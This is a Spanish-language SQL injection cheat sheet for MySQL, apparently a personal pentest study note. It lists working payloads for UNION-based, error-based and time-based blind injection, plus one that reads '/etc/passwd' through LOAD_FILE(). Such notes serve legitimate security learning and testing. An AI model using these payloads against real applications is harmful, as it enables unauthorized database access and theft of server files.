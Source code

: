 # CheatSheet: SQLi         

## Fecha: 30/01/2025

## Objetivo
Establecer la teoria necearia para poder identificar en cada de base de datos los distnintos vectores de ataque.

## MySql

### **1. Diferencias clave en MySQL respecto a MSSQL**

-   **No siempre soporta stacked queries (`;`)**, a menos que tengas múltiples consultas habilitadas.
-   **Soporta `UNION SELECT`**, pero debe coincidir el número de columnas.
-   **Tiene funciones específicas útiles en SQLi**, como `LOAD_FILE()`, `INTO OUTFILE`, `INFORMATION_SCHEMA` y `BENCHMARK()`.

### **2. Enumeración de Base de Datos en MySQL**

Si puedes ejecutar consultas pero no ver los resultados, usa `error-based` o `time-based`.

#### **a) Error-Based SQLi**

Forzamos un error para extraer información:

```
' UNION SELECT 1,2,3,@@version; --  
```
Si falla, prueba generando un error explícito:
```
' UNION SELECT 1,2,3,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1); --  
```
Si la aplicación muestra mensajes de error, puedes extraer datos directamente.
#### **b) Time-Based Blind SQLi**

Si no se ve la respuesta, prueba una inyección de tiempo para confirmar la ejecución:

```
' OR IF(SUBSTRING(@@version,1,1)='8', SLEEP(5), 0); --  
```
Si la consulta tarda 5 segundos, significa que la versión de MySQL comienza con "8". Puedes usar esto para extraer datos carácter por carácter.

### **3. Explotación Avanzada en MySQL**

#### **a) Leer Archivos del Servidor con `LOAD_FILE()`**

Si el usuario de la base de datos tiene permisos:
```
' UNION SELECT 1,2,3,LOAD_FILE('/etc/passwd'); --  
```
Esto funciona en sistemas Linux y permite leer archivos accesibles por el usuario de MySQL.
